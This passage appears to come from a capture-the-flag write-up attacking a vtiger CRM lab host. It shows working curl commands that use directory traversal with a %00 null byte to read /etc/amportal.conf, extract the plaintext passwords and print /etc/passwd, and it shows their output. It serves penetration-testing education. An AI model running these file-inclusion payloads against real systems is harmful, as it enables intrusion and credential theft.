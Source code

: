 Because there is no filtering of '../' and I can pass percent %00 to truncate the text, the current_language option leads to a file. The percent `%00` indicates that PHP is adding the .php extension to the input before including it. Adding percent `%00` to an outdated PHP instance would truncate the string, causing the `.php` to be disregarded.

It seems that we have some passwords from the output above, we can filter this down:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -E 'PASS=|PASSWORD='
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Save this to a file:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -E 'PASS=|PASSWORD=' | cut -d '=' -f 2 | uniq -u >> passwords.txt
```

Now we have a passwords list:
- amp109
- amp111
- jEhdIekWmdjE
- passw0rd

Since we have LFI, we can try to enumerate users as well, let's read the `/etc/passwd` file:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
```